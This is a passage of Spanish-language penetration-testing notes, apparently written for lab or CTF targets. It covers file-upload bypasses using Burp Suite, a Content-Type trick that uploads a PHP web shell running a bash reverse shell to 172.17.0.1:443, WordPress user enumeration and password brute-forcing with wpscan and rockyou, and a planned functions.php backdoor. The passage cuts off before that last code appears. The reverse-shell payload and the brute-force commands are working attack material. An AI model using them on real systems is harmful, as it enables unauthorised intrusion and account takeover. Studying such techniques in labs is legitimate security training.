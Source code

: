estas extensiones las utilizamos para el ataque snipper de burpsuite.

las que he utilizado hasta el momento:

phar
phtml
php.jpg
war

[+] ARTIFICIO  DE BYPASS:

cuando ningún bypass funcione, y solo el sistema me permita subir archivo jpeg, png, jpg, todas las extensiones de imagenes, podemos interceptar la petición con burpsuite, mandarlo al repeater y modificarte el Content - Type:

Content - Type: image/jpeg

<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>

luego presionamos en send, nos ponemos en escucha por el puerto 443, nos dirigimos a uploads y presionamos en el nombre del archivo que subimos, ejemplo rev.php..

El artificio es modificar el Content - Type

-------------------------------------------------------------------------------

## 15.- WORDPRESS

si tenemos una ip como por ejmplo 172.17.0.2 y está corriendo una web, y si al hacerle fuzzing web con gobuster encontrasmos una ruta como: /wordpress, debemos seguir haciendo fuzzing web con gobuster a /wordpress

a veces hay directorios como /backup que se descubren con gobuster, es importante darle seguimiento.

al hacerle fuzzing web podemos encontrar /wp-login.php

podemos usar wpscan para intentar encontrar usuarios

wpscan --url http://172.17.0.2/wordpress -e p,u

si por ejemplo encontramos un usuario mario, también podemos hacer un ataque de fuerza bruta con wpscan, para intentar encontrar la contraseña de mario:

wpscan --url http://172.17.0.2/wordpress/wp-login.php --usernames mario --passwords /usr/share/wordlists/rockyou.tx

por ejemplo la contraseña que se encontró fue daniel123

una vez que ya tenemos tanto el usuario como la contraseña, nos logueamos en wp-login.php.

Intrusión:

podemos hacerlos de 2 formas:

15.1.- Modificando el archivo functions.php, editarlo y colocarle una reverseshell en php, ver la sección 1.1, colocando el siguiente código dentro del archivo functions.php:
